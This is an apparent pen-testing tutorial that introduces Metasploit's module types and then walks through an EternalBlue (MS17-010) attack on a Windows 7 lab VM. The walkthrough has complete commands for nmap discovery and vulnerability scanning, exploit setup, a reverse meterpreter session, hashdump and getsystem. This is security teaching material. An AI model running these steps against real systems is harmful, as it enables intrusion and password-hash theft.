

# Metasploit

Metasploit is an exploitation framework (aka penetration framework) , build for security professional to support penetration testing.

**Most related alternative**

Cobalt strike – closed source/ commercial use only

## Why prefer Metasploit?
It supports and provides sufficient tools for almost all the phases of the penetration testing.

**Notations**

**Phases of penetration testing**


## Modules provided by Metasploit?

 - exploits – the code that if executed takes advantage of the vulnerability to get unauthorized access to the desired system. Usually by the payload.

- payload – used by exploits. payload is a piece of code that are run by the target after successful exploitation (for backdoor, add new user, privilege escalation)

- Auxiliary – pre-exploitation features (scanning, fuzzing, sniffing)

- Encoders – to bypass firewall, IDS, IPS, Antivirus

- NOPS – no operation, use to ensure that if using multiple payloads, it is of same size. It ensures the proper execution of the instructions.

## How to Get Started?

### Metasploit Framework is Accessible Through:

 - Msfconsole [Metasploit Unleashed (offsec.com)](https://www.offsec.com/metasploit-unleashed/msfconsole/)
 - Armitage


**NOTE:** In case you are using any pen-testing OS like [Kali Linux](https://www.kali.org/) or [Parrot Security](https://www.parrotsec.org/), Metasploit  framework comes pre-installed with Msfconsole in them. 


## Hacking Windows 7 Machine?

**Attacker's Machine:** Kali Linux 2022.2

**Target Machine:** Windows 7

**Prerequisite:** 

 - The environment is setup in oracle vmware, with NAT connection 
 - The firewall of the windows is already disabled in this demonstration
 - The Attacker and Target machine is connected over the same network. i.e., they are in the same subnet.  

**NOTE: All steps written below will be performed in the atacker's machine**

**Step 1: Open msfconsole**

```bash
sudo msfconsole
```

**Step 2: Finding the Target's IP**

Find your eth0 IP address, to identify subnet to scan, because as the target machine is connected with the same router, it must be in the same subnet as well.
```bash
msf> ifconfig
```
Let attaker's IP: 192.168.126.128
Running a simple no-port host discovery nmap scan on the sub-network to find the target's machine.
```bash
msf> nmap -sn 192.168.126.0/24
```


One of this host could be the target machine we are looking for, so let's perform the osscan to be sure.
```bash
msf> nmap -O 192.168.126.0/24
```

We found the IP address of the target machine.
Target IP: 192.168.126.132

**Step 3: Finding Vulnerability in Target Machine**

Checking if the current version of OS the target machine is running on is having any publicly known vulnerability. This can be achieved by nmap script scan.
```bash
msf> nmap --script="vuln" 192.168.126.132
```


We identified that the target's machine is vulnerable for remote code execution, by the exploit smb-vuln-ms17-010. more details could be gathered from [CVE-2017-0143](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143).

**Step 4: Finding and Setting up the Exploit**

search is there is any exploit module available to exploit the Windows's SMB vulnerability ms17-101.

```bash
msf> search ms17 platform:windows
```


As we can see in the description of module index 0, it is mentioned that it provides an exploit named EternalBlue for MS17-010 vulnerability. We are going to use EternalBlue exploit, although you can also go for other modules.

```bash
msf> use 0
msf> show options
```

**NOTE:** You can use "show payload" to explore and change payload attached with the exploit.


As you can see, the place of RHOST is not set and mandatory to fill.

```bash
msf> set RHOST 192.168.126.132
```


**NOTE:** If your LHOST and LPORT is not set by default you can run following command to set LHOST to attacker's IP and LPORT to any random free port.
```bash
msf> set LHOST 192.168.126.128
msf> set LPORT 4444
```
**Step 5: Exploiting to Gain Access**

After setting up the environment just type exploit or run to execute the payload.
```bash
msf> exploit
```

Wait for few seconds and you will see an active meterpreter session. To verify your access, you can run following commands.

```bash
meterpreter> sysinfo
meterpreter> pwd
```


**Step 6: Post Exploitation Steps**
commands like hashdump and getsystem could be used to perform privilege escalation. 

```bash
meterpreter> hashdump
meterpreter> getsystem
```


However, it looks like the exploit we used also gave us the admin privilege in the provided meterpreter session.
